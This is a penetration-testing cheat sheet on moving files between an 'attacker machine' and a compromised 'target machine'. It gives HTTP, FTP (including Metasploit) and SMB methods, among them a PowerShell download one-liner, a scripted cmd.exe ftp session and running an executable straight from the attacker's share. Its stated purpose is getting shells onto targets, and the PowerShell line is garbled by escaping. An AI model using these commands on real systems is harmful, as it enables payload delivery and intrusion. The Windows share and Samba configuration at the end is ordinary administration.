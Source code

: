 # File Transfer

File can either be transferred by:

* Push file to target
* Have the target to pull file back

## HTTP

**On attacker machine**:

### Apache

copy file to `/var/www/html/`

Start Apache Server

> /etc/init.d/apache2 start

### Python

By running below, current directory will be accessible over HTTP

> python -m SimpleHTTPServer \[port no\]

**On target machine**:

```text
http://your_ip_address:your_port_num/filename
```

If you only have command line access in a Windows machine, use PowerShell's WebClient object:

> powershell -c "\(new-object System.Net.WebClient\).DownloadFile\('\[\[[http://your\_ip\_address:your\_port\_num/filename','C:\Users\dest\_path\file\_name\]\(http://your\_ip\_address:your\_port\_num/filename','C:\Users\dest\_path\file\_name\)\]'\](http://your_ip_address:your_port_num/filename','C:\Users\dest_path\file_name]%28http://your_ip_address:your_port_num/filename','C:\Users\dest_path\file_name%29]'\)\)"

or use cmd.exe to trigger IE

```text
cd Program Files\Internet Explorer start iexplore.exe "http://ip_address/file"
```

## FTP

### vsftpd/pytftpd

**On attacker machine**:

`vsftpd` or simply the `pytftpd` library

```text
apt-get install python-pyftpdlib
python -m pyftpdlib -p [port_num]
```

default port is 2121

`-w` can grant the user write access

### Metasploit

Metasploit has an ftp module `auxiliary/server/ftp`

```text
use auxiliary/server/ftp
set FTPROOT /root/shells
exploit
```

Can be kill with:

> jobs -k \[id\]

**On target machine**:

Type it into your cmd.exe

```text
echo open your_ip_address > ftp_commands.txt  
echo your_username >> ftp_commands.txt  
echo your_password >> ftp_commands.txt  
echo binary >> ftp_commands.txt  
echo get your_file >> ftp_commands.txt  
echo bye >> ftp_commands.txt  
ftp -s:ftp_commands.txt
```

## SMB

**On attacker machine**:

> `smbserver.py shareName sharePath` `(e.g. smbserver.py TMP /tmp)`

Check with smbclient

> `smbclient -L [your ip address] --no-pass`

**On target machine**:

> `net view \\\\[attack machine ip address]`

Copy file `copy \\[your ip address]\Sharepath .`

Or execute the file directly from SMB `\\[your ip address]\file.exe`

### Windows to Windows

Create a new local file share:

`NET SHARE work=C:\docs\work /REMARK:"work share" /CACHE:No`

Delete the share:

`NET SHARE work /DELETE`

List the File/Printer shares on a remote computer:

`NET VIEW \\ComputerName`

List all the shares in the domain:

`NET VIEW /DOMAIN`

Join a file share \(Drive MAP\):

`NET USE [driveletter:] \\ComputerName\ShareName`

\(replace \[driveletter:\] with the drive letter you want to assign\).

### Linux to Windows

Backup and modify `/etc/samba/smb.conf`

Add the following configuration

```text
[sharedname]
path = [path to share]
available  = yes
valid users = [current user]
read only = no
browsable = yes
public = yes
writable = yes
```

Add user and password `smbpasswd -a [current user]`

List user `pdbedit -L`

Restart SMB service `service smb restart`

or

`sudo /etc/init.d/samba restart`

Access the IP address of the computer from Windows


